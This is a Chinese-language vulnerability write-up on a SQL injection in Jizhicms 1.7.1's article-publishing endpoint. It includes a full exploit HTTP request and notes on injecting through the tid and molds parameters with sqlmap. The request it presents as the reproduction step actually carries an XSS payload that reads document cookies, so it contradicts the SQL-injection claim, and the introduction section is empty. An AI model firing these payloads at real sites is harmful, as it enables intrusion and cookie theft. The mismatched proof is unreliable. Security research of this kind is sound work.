



Jizhicms 1.7.1 ./user/release.html sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

同样还是在发表文章这

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 153
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release/molds/article.html
    Cookie: PHPSESSID=84mcpgsvrgnfag0fnl3ngjm2eo; XDEBUG_SESSION=PHPSTORM

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=123&litpic=&description=123

可以看到有明显的时间延迟，存在基于时间的延迟注入为了直观的展示是否进行了拼接sql语句的操作，监控下sql语句的执行，在mysql监控工具中可以看到没有任何过滤就进行了sql语句的拼接，触发了sql注入漏洞定位到漏洞函数release函数，重点关注下sql语句的拼接问题，一共有两处进行了sql的拼接，只要在进行拼接前没有进行过滤就会存在sql注入漏洞其中\$this-\>classtypedata对应的是数据库中的classtype表中的数据然后跟进到get\_fields\_data函数，根据xdebug调试代码的运行情况，发现fields为空，所以会直接返回data,其中并没有进行任何过滤在release函数函数中只是要求\$w\[\'tid\'\]!=0即可，所以我们可以在tid参数和molds参数处构造sql注入语句用slmap跑的结果

参考链接
--------

> https://xz.aliyun.com/t/7861\#toc-2
